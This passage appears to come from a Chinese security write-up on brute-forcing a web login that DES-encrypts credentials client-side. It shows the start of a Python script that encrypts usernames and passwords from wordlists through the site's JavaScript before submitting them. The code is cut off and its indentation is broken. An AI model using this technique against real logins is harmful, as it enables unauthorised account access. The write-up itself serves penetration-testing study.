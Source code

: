 [![](assets/1698897578-f7e2f4808fb666972133860aa89fa575.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200206160049-c9bb4bda-48b6-1.png)

这样就可以利用 burpsuite/python 脚本加载加密后的字典愉快的爆破啦。

py 脚本爆破（单线程）：

```bash
#coding:utf-8
#from selenium import webdriver
import execjs
import requests
import re




successCount = 0


def mzDes(s,para):
    despara = execjs.get().compile(s).call("strEnc",para,"csc","mz","2017")
    return despara

with open('des.js','r') as mzCrypto:

        s = mzCrypto.read()
        with open('users.txt','r') as users:   #des username


        user = users.readlines()
        for u in user:
            with open('top50.txt','r') as pwds:   #des password
                    uname = u.strip()
```